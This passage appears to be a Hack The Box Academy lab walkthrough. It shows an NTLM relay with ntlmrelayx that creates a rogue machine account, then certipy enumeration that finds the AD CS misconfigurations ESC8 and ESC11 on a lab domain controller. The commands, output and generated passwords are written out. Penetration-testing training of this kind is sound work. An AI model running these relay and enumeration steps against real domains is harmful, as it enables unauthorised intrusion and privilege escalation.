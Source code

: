 After a while, students will notice that a relayed authentication created a fake computer on the domain controller named `Academy-Student$` with a randomly generated password.

```shell-session
htb-student@ubuntu:~$ sudo ntlmrelayx.py -tf target.txt -smb2support --no-da --no-acl --add-computer "Academy-Student"
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

<SNIP>
[*] Attempting to create computer in: CN=Computers,DC=INLANEFREIGHT,DC=LOCAL
[*] Adding new computer with username: Academy-Student$ and password: >ld/b:k4ie{T7i0 result: OK
```

Subsequently, students will have to utilize `certipy` alongside the credentials for the generated computer, querying all of the enabled certificate templates on the domain controller.

Code: shell

```shell
certipy find -enabled -u 'Academy-Student$'@172.16.117.3 -p '5l}2/.dQifU><dO' -stdout
```

```shell-session
htb-student@ubuntu:~$ certipy find -enabled -u 'Academy-Student$'@172.16.117.3 -p '5l}2/.dQifU><dO' -stdout
Certipy v4.7.0 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 33 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 11 enabled certificate templates
[*] Trying to get CA configuration for 'INLANEFREIGHT-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'INLANEFREIGHT-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'INLANEFREIGHT-DC01-CA' via RRP
[!] Failed to connect to remote registry. Service should be starting now. Trying again...
[*] Got CA configuration for 'INLANEFREIGHT-DC01-CA'
[*] Enumeration output:
Certificate Authorities
<SNIP>
    [!] Vulnerabilities
      ESC8                              : Web Enrollment is enabled and Request Disposition is set to Issue
      ESC11                             : Encryption is not enforced for ICPR requests and Request Disposition is set to Issue
<SNIP>
 6
    Template Name                       : Machine
    Display Name                        : Computer
    Certificate Authorities             : INLANEFREIGHT-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
<SNIP>
```

